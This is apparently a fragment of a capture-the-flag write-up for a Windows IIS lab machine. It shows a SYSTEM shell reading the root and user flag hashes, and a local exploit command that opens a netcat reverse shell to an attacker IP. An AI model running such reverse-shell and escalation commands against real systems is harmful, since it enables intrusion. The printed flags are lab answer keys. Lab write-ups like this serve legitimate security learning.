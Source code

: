 

c:\windows\system32\inetsrv>whoami
whoami
nt authority\system


c:\ dir /s *.txt



C:\>type 'C:\Documents and Settings\Administrator\Desktop\root.txt'
type 'C:\Documents and Settings\Administrator\Desktop\root.txt'
The filename, directory name, or volume label syntax is incorrect.

C:\>type C:\Documents and Settings\Administrator\Desktop\root.txt
type C:\Documents and Settings\Administrator\Desktop\root.txt
The system cannot find the file specified.
Error occurred while processing: C:\Documents.
The system cannot find the file specified.
Error occurred while processing: and.
The system cannot find the path specified.

C:\>type "C:\Documents and Settings\Administrator\Desktop\root.txt"
type "C:\Documents and Settings\Administrator\Desktop\root.txt"
aa4beed1c0584445ab463a6747bd06e9
C:\>type "C:\Documents and Settings\Lakis\Desktop\user.txt"
type "C:\Documents and Settings\Lakis\Desktop\user.txt"
700c5dc163014e22b3e408f8703f67d1
C:\>
```


 /usr/share/windows-binaries/nc.exe

.\exp.exe "C:\Inetpub\wwwroot\nc.exe 10.10.14.32 4448 -e cmd --no-shutdown"

start call delay.bat ^1^> log.txt ^2^>^&^1

